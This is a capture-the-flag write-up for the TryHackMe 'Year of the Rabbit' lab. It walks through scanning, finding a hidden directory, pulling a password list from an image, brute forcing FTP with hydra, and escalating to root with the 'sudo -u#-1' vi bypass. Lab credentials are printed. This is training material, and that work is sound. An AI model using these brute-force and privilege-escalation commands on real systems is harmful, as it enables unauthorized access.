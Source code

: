 # Year of the Rabbit

***
![](https://tryhackme-images.s3.amazonaws.com/room-icons/c062ef0e0b4f70e51a2dafc5fc2bca0e.jpeg)

## Difficulty = Easy

***

Running our nmap scan we have -:


```bash
# Nmap 7.94 scan initiated Mon Oct 23 04:16:09 2023 as: nmap -p80,22,21 -sCV -T4 -v --min-rate=1000 -oN nmap.txt 10.10.184.53
Nmap scan report for 10.10.184.53
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 a0:8b:6b:78:09:39:03:32:ea:52:4c:20:3e:82:ad:60 (DSA)
|   2048 df:25:d0:47:1f:37:d9:18:81:87:38:76:30:92:65:1f (RSA)
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 23 04:16:29 2023 -- 1 IP address (1 host up) scanned in 19.79 seconds
```

We can't login to `FTP` as anonymous user 


![](https://i.imgur.com/Ue9ZHST.png)


Navigating to port `80/HTTP` we have a default Apache2 website



![](https://i.imgur.com/nGondix.png)


- No vital information on `Page-Source`
- status code `404` in both `/sitemap.xml` and `/robots.txt`


Running dir/file bruteforce with `dirseach` we have only the `/assets` page


![](https://i.imgur.com/XT1GnQk.png)


Navigating to the `/assets` the first link truly got us **rick-rolled** 😂

![](https://i.imgur.com/EY5oCOM.png)

The second link, `/assets/style.css`, on the other hand gives us this information


![](https://i.imgur.com/YRKU9Of.png)


Checking `/sup3r_s3cr3t_fl4g.php` refers us to `/sup3r_s3cr3t_fl4g/` and then ask us to turn off **javascript**

![](https://i.imgur.com/EpMMxOe.png)

If you click `Ok` you get **rick-rolled** one more time 😭😂


![](https://i.imgur.com/3cJHyMG.png)

Making a request to `/sup3r_s3cr3t_fl4g/` with `curl` we can see we have a message, No wonder we are being referred 🤔


![](https://i.imgur.com/1W79sJq.png)

Well, start up `burpsuite` and intercept the `/sup3r_s3cr3t_fl4g.php` page then **send to repeater**

![](https://i.imgur.com/7rpCiII.png)


Click `Follow redirection` at the top-bar

![](https://i.imgur.com/KFz9j1T.png)



Nice, looks like this is what they don't want us to see, we are been referred to the page, `/intermediary.php?hidden_directory=/WExYY2Cv-qU`, then from here again to `http://10.10.184.53/sup3r_s3cr3t_fl4g.php`,
where the final **rick-roll** video plays

![](https://i.pinimg.com/originals/5f/d8/ca/5fd8ca9ef493ae16d1896d32a81cd193.gif)

Accessing `/intermediary.php?hidden_directory=/WExYY2Cv-qU` , i decided to use the **hidden_directory** parameter value directly, which is `/WExYY2Cv-qU`, we have an image

![](https://i.imgur.com/My70Hyn.png)

Download the image with the following command

```bash
$ wget http://10.10.184.53/WExYY2Cv-qU/Hot_Babe.png
```


Running the `strings` command on the image and scrolling down gives us this


![](https://i.imgur.com/qxi9ENY.png)


Running this command saves the passwords to a file called `passwd.txt`

```bash
$ strings Hot_Babe.png | tail -n 82 > passwd.txt
```

We can therefore bruteforce the `FTP` protocol with the following syntax using `hydra`

```bash
$ hydra -l ftpuser -P ./passwd.txt ftp://10.10.184.53 -V
```


![](https://i.imgur.com/wZKSAgI.png)

Login in with the username and password, `ftpuser:5iez1wGXKfPKQ` we have **Eli's_Creds.txt**


![](https://i.imgur.com/vNzuslp.png)

Download the file to your base machine with the `mget` command

![](https://i.imgur.com/fgr67EY.png)


Concatenating the `Eli's_Creds.txt` file gave us a brainfuck encoded text


![](https://i.imgur.com/cssdhQY.png)



Converting the brainfuck gave us **Eli's** credential

![](https://i.imgur.com/2AleGT7.png)

Login in via `SSH` we have a message from **root** to user **Gwendoline**


![](https://i.imgur.com/UkcTxv8.png)

running the `locate` command on the keyword **s3cr3t** we have

![](https://i.imgur.com/fRwgNc6.png)



Concatenating it gives us user **gwendoline** password

![](https://i.imgur.com/DFdLYhu.png)

switch user to **gwendoline**

```bash
$ su gwendoline
```

Running `sudo -l`, would i say we don't have permission to run `/usr/bin/vi /home/gwendoline/user.txt` as **root** 😆 


![](https://i.imgur.com/941ycmx.png)

After much lookups, using this payload we where able to view the file


```bash
$  sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

![](https://i.imgur.com/Tb7Whlt.png)

we can therefore get a root shell by adding **semi-colon** (`:`) and then `!/bin/bash` or you can also use `:shell`

![](https://i.imgur.com/TVsf3qv.png)

Hell yeah, we are root


![](https://i.imgur.com/mBlybTF.png)

Have a nice day ⛹️‍♂️


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>




